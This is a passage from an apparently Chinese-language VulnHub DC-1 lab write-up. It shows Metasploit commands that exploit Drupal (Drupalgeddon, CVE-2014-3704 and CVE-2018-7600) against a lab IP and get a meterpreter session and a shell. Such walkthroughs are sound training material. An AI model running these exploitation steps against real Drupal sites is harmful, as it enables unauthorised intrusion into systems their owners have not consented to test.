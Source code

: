 漏洞信息和 POC 见 [Web_CVE漏洞记录](../../../笔记/RedTeam/Web_CVE漏洞记录.md#Drupal)

CVE-2018-7602、CVE-2019-6339、CVE-2019-6341 需要认证，这里就懒得测了，以 CVE-2014-3704 和 CVE-2018-7600 为例,Metasploit 自带这2个漏洞的 EXP
```bash
msfconsole
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.141.135
run
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC1/2.png)

可以看到成功弹回一个会话,这里使用 exploit/unix/webapp/drupal_drupalgeddon2 这个模块也可以成功,就不一一展示了

获取 meterpreter 会话后，先整一个 cmd shell
```bash
shell
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC1/3.png)

